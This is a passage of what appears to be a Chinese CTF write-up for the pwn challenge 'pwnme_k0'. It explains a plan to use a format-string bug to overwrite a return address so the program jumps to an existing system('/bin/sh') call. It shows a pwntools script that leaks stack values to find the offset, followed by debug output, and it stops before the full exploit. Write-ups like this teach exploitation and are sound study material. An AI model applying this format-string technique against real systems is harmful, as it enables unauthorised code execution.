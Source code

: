 ### <a class="reference-link" name="vulfunc"></a>vulfunc

[![](https://p0.ssl.qhimg.com/t019eb327b902ff6e8c.png)](https://p0.ssl.qhimg.com/t019eb327b902ff6e8c.png)<br>[![](https://p1.ssl.qhimg.com/t015e5ed07a1ec75cea.png)](https://p1.ssl.qhimg.com/t015e5ed07a1ec75cea.png)<br>
这题看了下字符串，发现有可以直接利用的system(‘/bin/sh’)，所以只要用格式化字符串漏洞直接修改某个函数的返回地址为0x4008A6就可以了。



### <a class="reference-link" name="%E7%A1%AE%E5%AE%9A%E5%81%8F%E7%A7%BB"></a>确定偏移

首先来跟随一下程序，确定格式化串的相对偏移。<br>
写一个程序确定偏移。

```
from pwn import *
context.log_level = 'debug'
elf=ELF('./pwnme_k0')
p=process('./pwnme_k0')
gdb.attach(p,'break *0x400B39') #一开始就把gdb attach上去，然后设置好断点位置，break *0x400B39就是设置断点，然后c一下就执行到断点位置了。
p.recvuntil('Input your username(max lenth:20):')
p.sendline('a'*8)
p.recvuntil('Input your password(max lenth:20):')
p.sendline('%p'*8)
p.recvuntil('&gt;')
p.sendline('1')
p.recvuntil('&gt;')
p.sendline('3')
```

输出

```
sakura@ubuntu:~$ python offset.py
[DEBUG] PLT 0x400740 putchar
[DEBUG] PLT 0x400748 strcpy
[DEBUG] PLT 0x400750 puts
[DEBUG] PLT 0x400758 write
[DEBUG] PLT 0x400760 setbuf
[DEBUG] PLT 0x400768 system
[DEBUG] PLT 0x400770 printf
[DEBUG] PLT 0x400778 memset
[DEBUG] PLT 0x400780 read
[DEBUG] PLT 0x400788 __libc_start_main
[DEBUG] PLT 0x400790 __gmon_start__
[DEBUG] PLT 0x400798 memcpy
[DEBUG] PLT 0x4007a0 fflush
[DEBUG] PLT 0x4007a8 atol
[*] '/home/sakura/pwnme_k0'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './pwnme_k0': pid 2885
[DEBUG] Wrote gdb script to '/tmp/pwnoFjEm0.gdb'
    break *0x400B39
[*] running in new terminal: /usr/bin/gdb -q  "/home/sakura/pwnme_k0" 2885 -x "/tmp/pwnoFjEm0.gdb"
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/usr/bin/gdb -q  "/home/sakura/pwnme_k0" 2885 -x "/tmp/pwnoFjEm0.gdb"']
[+] Waiting for debugger: Done
[DEBUG] Received 0x127 bytes:
    '**********************************************n'
    '*                                            *n'
    '*Welcome to sangebaimao,Pwnn me and have fun!*n'
```